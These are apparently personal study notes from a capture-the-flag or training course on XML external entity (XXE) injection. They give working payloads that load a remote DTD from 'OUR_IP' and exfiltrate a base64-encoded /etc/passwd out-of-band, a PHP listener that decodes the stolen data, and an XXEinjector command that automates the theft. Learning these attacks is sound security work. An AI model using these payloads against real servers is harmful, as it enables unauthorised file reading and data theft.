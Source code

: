 Then the request to obtain the file is now:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

This method not as reliable, as it may have length limitations, and certain special chars may still break it. 

Getting the flag worked on the error based approach. The CDATA approach apparently only worked for `index.php`! **That will be why.** Weird how it does not let you actually follow along though. Trying the CDATA method at the new URL did not fully work either.

### Blind data exfiltration
Previous section is an exmaple of a blind xxe vuln, where we did not recieve any output containing any of our XML input. As the web server was displaying errors, we could use it to read files. But now we are going to be in a completley blind situation.

Using a method of `Out-of-band (OOB) Data Exfiltration`, which is similar to SQL injections, blind command injections, blind XSS and blind XXE. Similar to hosting the DTD file, but instead we will be getting the web app to send a web request to our server with the content of the file we want to read. To do so, we make param entites:

1. Base encoded file we want
2. The web request to our server

payload:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
Makes a self-loop, and then either a python server can sput the data, or a PHP server can run and do the decoding for us. E.g. make an `index.php`:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
and start the server with `php -S 0.0.0.0:8000`


#### Automated OOB efil.
Such a tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). Copy the POST from burp into a file and place the `XXEINJECT` under where the XML data starts. I.E. `<?xml version="1.0" encoding="utf-8"?> XXEINJECT`. Runs via `ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter`

Does not print the exfil data, it is in the logs: `cat Logs/<HOST>/etc/passwd.log`


### XXE Prevention
Easier than others, caused mainly by outdated XML libraries
